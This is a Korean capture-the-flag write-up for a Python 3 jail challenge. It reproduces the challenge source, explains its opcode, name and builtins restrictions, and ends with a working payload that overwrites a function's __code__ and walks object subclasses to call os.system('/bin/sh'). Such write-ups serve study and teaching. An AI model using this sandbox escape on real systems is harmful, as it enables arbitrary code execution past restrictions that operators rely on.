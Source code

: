 # TI-1337 Silver Edition

## #python #jail

---

python 3 버전의 jail 문제이다. 이전에 풀어본 python 2 버전하고는 좀 달라진 부분이 있다.

- `code` 객체 내의 `func_code` 가 `__code__` 로 명칭이 변경되었다.

- `func_globals` 가 `__globals__` 로 명칭이 변경되었다.

사실상 웬만한 builtin 모듈? 변수? 네이밍이 **double undersocre** 로 통일 되었다.

아래는 문제 소스이다.

```python
# ti1337se.py
#!/usr/bin/env python3
import dis
import sys

banned = ["MAKE_FUNCTION", "CALL_FUNCTION", "CALL_FUNCTION_KW", "CALL_FUNCTION_EX"]

used_gift = False

def gift(target, name, value):
	global used_gift
	if used_gift: sys.exit(1)
	used_gift = True
	setattr(target, name, value)

print("Welcome to the TI-1337 Silver Edition. Enter your calculations below:")

math = input("> ")
if len(math) > 1337:
	print("Nobody needs that much math!")
	sys.exit(1)
code = compile(math, "<math>", "exec")

bytecode = list(code.co_code)
instructions = list(dis.get_instructions(code))
for i, inst in enumerate(instructions):
	if inst.is_jump_target:
		print("Math doesn't need control flow!")
		sys.exit(1)
	nextoffset = instructions[i+1].offset if i+1 < len(instructions) else len(bytecode)
	if inst.opname in banned:
		bytecode[inst.offset:instructions[i+1].offset] = [-1]*(instructions[i+1].offset-inst.offset)

names = list(code.co_names)
for i, name in enumerate(code.co_names):
	if "__" in name: names[i] = "$INVALID$"

code = code.replace(co_code=bytes(b for b in bytecode if b >= 0), co_names=tuple(names), co_stacksize=2**20)
v = {}
exec(code, {"__builtins__": {"gift": gift}}, v)
if v: print("\n".join(f"{name} = {val}" for name, val in v.items()))
else: print("No results stored.")
```

## 제한 조건 1) 맨 처음 input 구문에는 `__` 가 들어가선 안된다.

엄밀히 말하면, `__` 가 인자로 쓰이는 것 외에는 pure code 로 쓰여서는 안된다는 말이다.

```python
code = compile(math, "<math>", "exec")
```

해당 구문에서 code 는 바이트 코드가 되어 나오는데, 이 객체의 `co_names` 변수는 바이트 코드 구문에서 쓰이는 모든 변수명(?) 들의 집합이 담긴 리스트이다.

따라서 `__` 를 써버리게 되면, 아래의 필터링에 걸리게 된다.

```python
names = list(code.co_names)
for i, name in enumerate(code.co_names):
	if "__" in name: names[i] = "$INVALID$"
```

그러나, 함수 인자에 string 형태로 `__` 를 포함시켜 전달하는 것은 가능하다!

## 제한조건2) 함수정의하여 사용 불가

`def` 와 `lambda` 또한 사용이 불가하다.

```python
code = compile(math, "<math>", "exec")
# ~~~(중간 생략)~~~
code = code.replace(co_code=bytes(b for b in bytecode if b >= 0), co_names=tuple(names), co_stacksize=2**20)
```

위 코드에 의하면, `compile` 된 바이트 코드는 일정 필터링을 거쳐서 정상적인 소스코드로 변경되어야 하지만 아래의 필터링 때문에 악의적인 바이트 코드 명령은 모두 -1 처리 된다.

```python
banned = ["MAKE_FUNCTION", "CALL_FUNCTION", "CALL_FUNCTION_KW", "CALL_FUNCTION_EX"]
# ~~~ (중간생략) ~~~
for i, inst in enumerate(instructions):
	if inst.is_jump_target:
		print("Math doesn't need control flow!")
		sys.exit(1)
	nextoffset = instructions[i+1].offset if i+1 < len(instructions) else len(bytecode)
	if inst.opname in banned:
		bytecode[inst.offset:instructions[i+1].offset] = [-1]*(instructions[i+1].offset-inst.offset)
```

그러므로 `<function>`, `<lambda>` 객체들은 기대할 수 없다.

오로지 `compile` 에서 나온 `<code>` object 만 있을 뿐이다.

## 제한 조건3) 제한된 `__builtins__`

```python
exec(code, {"__builtins__": {"gift": gift}}, v)
```

위 코드를 보면 `exec` 실행 시, `__builtins__` 를 gift 함수만 주고 실행시켜버린다.

한 마디로 `print` 부터 뭐 `hex()` 등등 못 쓴다는 이야기다.

---

다시 문제로 돌아와서 우리가 결론적으로 이용해야하는 것은 아래의 부분이다.

```python
def gift(target, name, value):
	global used_gift
	if used_gift: sys.exit(1)
	used_gift = True
	setattr(target, name, value) # This part!!!
```

`setattr` 함수는 jail 문제에서 주로 사용되는 함수로 객체 내부의 속성값을 변경할 수 있는 함수이다.

이 때, 문자열 형식외의 raw 한 `__` 은 사용할 수 없으므로 eval 함수 안에 문자열 형식으로 쉘을 켜는 코드를 넣어 lambda 함수로 만든 후, `Function` 타입이 아닌 `code` 형식으로 변수 c 가 반환 되면 해당 code 객체를 gift 함수코드에 덧입힌다.

그렇게 해서 gift 함수를 실행시키면 된다.

## payload

```python
c = (lambda: eval("().__class__.__base__.__subclasses__()[104].__init__.__globals__['sys'].modules['os.path'].os.system('/bin/sh')"),lambda: eval("().__class__.__base__.__subclasses__()[104].__init__.__globals__['sys'].modules['os.path'].os.system('/bin/sh')"))[0]; gift.f = gift; gift.f(gift, "__code__", c); gift.f();
```
